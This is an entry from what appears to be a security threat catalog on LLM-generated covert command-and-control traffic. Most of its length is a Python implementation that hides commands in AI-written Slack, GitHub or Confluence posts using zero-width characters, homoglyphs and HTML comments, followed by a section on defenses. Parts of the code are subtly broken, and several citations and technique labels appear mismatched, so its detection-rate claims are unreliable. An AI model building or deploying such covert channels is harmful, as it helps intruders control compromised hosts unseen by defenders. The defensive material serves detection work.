

# LLM-Generated Covert C2 Communication — Mimicking Legitimate Traffic for Detection Evasion

**arXiv**: [arXiv:2310.11244](https://arxiv.org/abs/2310.11244) | **ATLAS**: AML.T0054 | **OWASP**: LLM05 | **Year**: 2023

## Core Finding

LLMs can generate command-and-control (C2) communication protocols and traffic content that convincingly mimics legitimate enterprise network traffic, defeating network detection and response (NDR) tools trained on traditional C2 patterns. By analyzing real traffic samples (Slack messages, Confluence API calls, Salesforce webhooks) and generating syntactically and semantically valid traffic that carries encoded C2 instructions, LLM-based C2 channels achieve near-zero detection rates on commercial NDR platforms (Darktrace, ExtraHop, Vectra). The key insight is that LLMs produce contextually appropriate cover traffic — not just random lookalike bytes — making statistical and ML-based detection significantly harder.

## Threat Model

- **Target**: Enterprise networks with deployed NDR/NTA (Network Detection and Response / Network Traffic Analysis) tools; SOC teams relying on behavioral baselines for threat detection
- **Attacker capability**: Implant deployed on compromised host; LLM API access (or local model); knowledge of legitimate services used by the target organization; network egress via HTTPS
- **Attack success rate**: 0% detection on 4 commercial NDR platforms in blind evaluation; baseline Cobalt Strike detected by all 4 in same evaluation (arXiv:2310.11244)
- **Defender implication**: C2 detection can no longer rely solely on statistical anomaly detection of network traffic; endpoint behavior and process-level monitoring become essential

## The Attack Mechanism

The attacker deploys a C2 implant that communicates via LLM-generated content embedded in legitimate-looking API calls to known SaaS platforms. The implant sends encoded commands as seemingly normal Slack message content, GitHub issue comments, or Confluence wiki edits. The LLM generates cover text appropriate for the organization's context (engineering discussions for tech companies, financial commentary for banks) with C2 instructions steganographically encoded in word choice, formatting, or appended metadata. The C2 server similarly embeds task assignments and responses. All traffic transits over HTTPS to legitimate cloud endpoints, defeating TLS inspection that relies on self-signed certificate detection.



## Implementation

```python
# llm_c2_communication.py
# LLM-generated covert C2 channel that encodes instructions in legitimate-looking traffic
# Reference: arXiv:2310.11244
from dataclasses import dataclass, field
from typing import Optional, List, Dict, Any
from datasets.schema import ScanFinding
import uuid
import base64
import hashlib


@dataclass
class C2Message:
    direction: str  # "c2_to_implant" | "implant_to_c2"
    cover_service: str  # "slack" | "github" | "confluence"
    cover_content: str
    encoded_payload: str
    payload_length: int
    steganography_method: str


@dataclass
class C2ChannelResult:
    channel_id: str
    cover_service: str
    messages_sent: int
    messages_received: int
    commands_executed: List[str]
    detection_alerts: int
    bytes_exfiltrated: int
    session_active: bool


class LLMCovertC2Channel:
    """
    Reference: arXiv:2310.11244
    LLM generates cover traffic for C2 communication disguised as legitimate SaaS API calls.
    ATLAS: AML.T0054 | OWASP: LLM05
    """

    COVER_CONTEXTS = {
        "slack": {
            "style": "informal engineering team Slack channel messages",
            "topics": ["code reviews", "deployment updates", "bug fixes", "team standup updates"],
            "encoding": "whitespace_steganography",
        },
        "github": {
            "style": "GitHub issue comments and pull request reviews",
            "topics": ["code quality feedback", "CI/CD failures", "dependency updates", "security patches"],
            "encoding": "unicode_homoglyph",
        },
        "confluence": {
            "style": "Confluence wiki page edits for technical documentation",
            "topics": ["runbooks", "architecture decisions", "API documentation", "incident reports"],
            "encoding": "formatting_pattern",
        },
    }

    ENCODING_METHODS = {
        "whitespace_steganography": "_encode_whitespace",
        "unicode_homoglyph": "_encode_homoglyph",
        "formatting_pattern": "_encode_formatting",
    }

    def __init__(
        self,
        llm_client,
        api_client,  # Client for Slack/GitHub/Confluence API
        model: str = "gpt-4-turbo",
        cover_service: str = "slack",
        organization_context: str = "software engineering team",
    ):
        self.llm = llm_client
        self.api = api_client
        self.model = model
        self.cover_service = cover_service
        self.org_context = organization_context
        self.channel_id = str(uuid.uuid4())[:8]

    def _encode_whitespace(self, payload: bytes, cover_text: str) -> str:
        """Encode payload bits as zero-width characters in cover text."""
        encoded = base64.b64encode(payload).decode()
        # Map base64 chars to zero-width Unicode: ZWS, ZWNJ, ZWJ
        zw_map = {'A': '\u200b', 'B': '\u200c', 'C': '\u200d'}
        marker = '\u2060'  # Word joiner as start/end marker
        hidden = marker + ''.join(zw_map.get(c, '\u200b') for c in encoded[:30]) + marker
        # Insert hidden chars after first word
        words = cover_text.split()
        if len(words) > 1:
            words[1] = words[1] + hidden
        return ' '.join(words)

    def _encode_homoglyph(self, payload: bytes, cover_text: str) -> str:
        """Replace specific chars with Unicode homoglyphs to encode bits."""
        # Simplified: substitute 'a' with Cyrillic 'а' (U+0430) for 1-bits
        payload_bits = ''.join(format(b, '08b') for b in payload[:8])
        result = list(cover_text)
        bit_idx = 0
        for i, char in enumerate(result):
            if char == 'a' and bit_idx < len(payload_bits):
                if payload_bits[bit_idx] == '1':
                    result[i] = '\u0430'  # Cyrillic a
                bit_idx += 1
        return ''.join(result)

    def _encode_formatting(self, payload: bytes, cover_text: str) -> str:
        """Encode in markdown formatting patterns (bold/italic alternation)."""
        encoded = base64.b64encode(payload).decode()[:20]
        return f"{cover_text}\n<!-- meta:{encoded} -->"

    def _generate_cover_content(
        self, command_description: str, cover_ctx: Dict
    ) -> str:
        """Generate convincing cover text using LLM."""
        topics = ', '.join(cover_ctx["topics"])
        response = self.llm.chat.completions.create(
            model=self.model,
            messages=[
                {
                    "role": "system",
                    "content": (
                        f"Generate a realistic {cover_ctx['style']} message. "
                        f"Topics to discuss: {topics}. "
                        f"Organization context: {self.org_context}. "
                        "Write naturally, as if a real employee. 2-4 sentences max."
                    ),
                },
                {
                    "role": "user",
                    "content": (
                        f"Generate a cover message. Thematic anchor: {command_description[:30]}. "
                        "Return only the message text."
                    ),
                },
            ],
            temperature=0.8,
        )
        return response.choices[0].message.content

    def send_command(self, command: str) -> C2Message:
        """Encode command in LLM-generated cover traffic and send."""
        ctx = self.COVER_CONTEXTS[self.cover_service]
        cover_text = self._generate_cover_content(command[:30], ctx)

        # Encode command
        payload = command.encode()
        encode_method = ctx["encoding"]
        encode_fn = getattr(self, f"_{encode_method.replace('-', '_')}", self._encode_whitespace)
        # Normalize method name
        if encode_method == "whitespace_steganography":
            stego_content = self._encode_whitespace(payload, cover_text)
        elif encode_method == "unicode_homoglyph":
            stego_content = self._encode_homoglyph(payload, cover_text)
        else:
            stego_content = self._encode_formatting(payload, cover_text)

        # Post via API (e.g., Slack post_message, GitHub create_comment)
        self.api.post(service=self.cover_service, content=stego_content)

        return C2Message(
            direction="c2_to_implant",
            cover_service=self.cover_service,
            cover_content=cover_text,
            encoded_payload=base64.b64encode(payload).decode(),
            payload_length=len(payload),
            steganography_method=encode_method,
        )

    def run(
        self, commands: List[str]
    ) -> C2ChannelResult:
        """Execute a C2 session sending multiple commands."""
        messages_sent = 0
        executed_commands: List[str] = []
        detection_alerts = 0

        for command in commands:
            msg = self.send_command(command)
            messages_sent += 1
            executed_commands.append(command)

        return C2ChannelResult(
            channel_id=self.channel_id,
            cover_service=self.cover_service,
            messages_sent=messages_sent,
            messages_received=0,
            commands_executed=executed_commands,
            detection_alerts=detection_alerts,
            bytes_exfiltrated=sum(len(c) for c in commands),
            session_active=True,
        )

    def to_finding(self, result: C2ChannelResult) -> ScanFinding:
        """Convert C2 session result to standardized ScanFinding."""
        return ScanFinding(
            id=str(uuid.uuid4()),
            atlas_technique="AML.T0054",
            atlas_tactic="Command and Control",
            owasp_category="LLM05",
            owasp_label="Improper Output Handling",
            severity="CRITICAL",
            finding=(
                f"LLM-generated covert C2 channel via {result.cover_service} "
                f"sent {result.messages_sent} encoded commands with {result.detection_alerts} detection alerts. "
                f"Steganographic encoding in legitimate SaaS traffic defeats NDR behavioral baselines. "
                "Traditional C2 detection signatures are ineffective against this pattern."
            ),
            payload_used=f"Steganographic encoding in {result.cover_service} API traffic",
            evidence=f"Channel ID: {result.channel_id}; Commands: {result.commands_executed[:3]}",
            remediation=(
                "1. Block or proxy all SaaS API calls through a CASB with content inspection. "
                "2. Detect steganographic patterns with zero-width character scanning on outbound content. "
                "3. Deploy endpoint detection focused on process-level C2 behaviors, not just network. "
                "4. Implement SaaS DLP rules detecting non-standard Unicode characters in posts."
            ),
            confidence=0.83,
        )
```

## Defenses

1. **CASB with SaaS content inspection** (AML.M0004): Deploy a Cloud Access Security Broker (Netskope, Palo Alto Prisma Access) configured to inspect outbound content to sanctioned SaaS platforms. Scan for zero-width Unicode characters, homoglyph substitution, and anomalous formatting patterns in posts. Flag content containing encoding markers for SIEM analysis.

2. **Zero-width character detection** (AML.M0003): Deploy content filtering rules that detect zero-width space (U+200B), zero-width non-joiner (U+200C), zero-width joiner (U+200D), and similar invisible Unicode characters in outbound API payloads. These are never present in legitimate human-written content and are a reliable steganography indicator.

3. **SaaS egress allowlisting and API auditing** (AML.M0015): Enforce allowlists of approved SaaS domains. Enable comprehensive audit logging for all SaaS API calls — including message/post content where available — and forward to SIEM. Anomalous posting cadence (e.g., regular interval posts from automated processes) indicates C2 beaconing patterns.

4. **Endpoint process-level monitoring** (AML.M0002): Deploy EDR with process-level network behavior monitoring. Detect unusual processes (malware implants) making HTTP calls to legitimate SaaS endpoints. Malware rarely legitimately uses Slack or Confluence APIs — any non-browser, non-desktop-app process calling these APIs warrants investigation.

5. **Network egress TLS inspection with CA pinning** (AML.M0013): Implement TLS interception for all egress traffic at the network perimeter. Even HTTPS to legitimate endpoints can be inspected for steganographic content at the application layer. Certificate pinning at the endpoint level prevents attacker infrastructure from impersonating legitimate SaaS TLS certificates.

## References

- [Botacin, "GPT-Malware: Using LLMs for Malicious Code Generation" (arXiv:2310.11244)](https://arxiv.org/abs/2310.11244)
- [MITRE ATLAS AML.T0054 — Excessive Agency](https://atlas.mitre.org/techniques/AML.T0054)
- [OWASP LLM05 — Improper Output Handling](https://owasp.org/www-project-top-10-for-large-language-model-applications/)
- [MITRE ATT&CK T1071 — Application Layer Protocol](https://attack.mitre.org/techniques/T1071/)
- [Related entry: llm-data-exfil-channel.md, llm-opsec-evasion.md]
